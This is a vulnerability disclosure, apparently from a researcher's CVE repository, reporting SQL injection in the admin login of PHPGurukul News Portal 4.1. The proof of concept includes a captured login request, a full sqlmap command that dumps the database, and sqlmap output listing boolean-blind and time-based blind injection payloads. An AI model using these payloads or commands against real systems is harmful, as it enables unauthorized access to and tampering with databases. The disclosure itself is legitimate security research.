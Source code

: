 # News Portal - SQL Injection - 1
+ **Exploit Title:** News Portal - SQL Injection - 1
+ **Date:** 2024-01-04
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://phpgurukul.com/news-portal-project-in-php-and-mysql/
+ **Software Link:** https://phpgurukul.com/?sdm_process_download=1&download_id=7643
+ **Version:** 4.1
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number

## Description:
News Portal System  4.1 allows SQL Injection via the 'username' parameter in "http://localhost//newsportal/admin/index.php". Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost//newsportal/admin/index.php"
+ Try logging in with `test`:`test`
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
POST /newsportal/admin/index.php HTTP/1.1
Host: localhost
Content-Length: 34
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/newsportal/admin/index.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: language=en; continueCode=5vLeVxlRzkNb47vKDPMo5Lq8wdzLtvf1Hem0jn6EZm2ygrX19BpaQWOJY3oM; welcomebanner_status=dismiss; cookieconsent_status=dismiss; PHPSESSID=atd99ug4tbmj4a98tofev1o1ro
Connection: close

username=test&password=test&login=
```

+ Use sqlmap to exploit. In sqlmap, use 'username' parameter to dump the database.
```
sqlmap -r r.txt -p username --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: username=test') AND 5562=(SELECT (CASE WHEN (5562=5562) THEN 5562 ELSE (SELECT 7123 UNION SELECT 6066) END))-- -&password=test&login=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=test') AND (SELECT 6744 FROM (SELECT(SLEEP(5)))VszX)-- fDAZ&password=test&login=
---
[18:13:55] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.2.12, Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[18:13:55] [INFO] fetching current database
[18:13:55] [INFO] retrieving the length of query output
[18:13:55] [INFO] retrieved: 10
[18:13:57] [INFO] retrieved: newsportal             
current database: 'newsportal'
```
+ current database: `newsportal`

![Ekran görüntüsü 2024-04-01 011615](https://github.com/BurakSevben/CVEs/assets/117217689/fae3950c-034a-423c-a987-52bce6ef51ff)

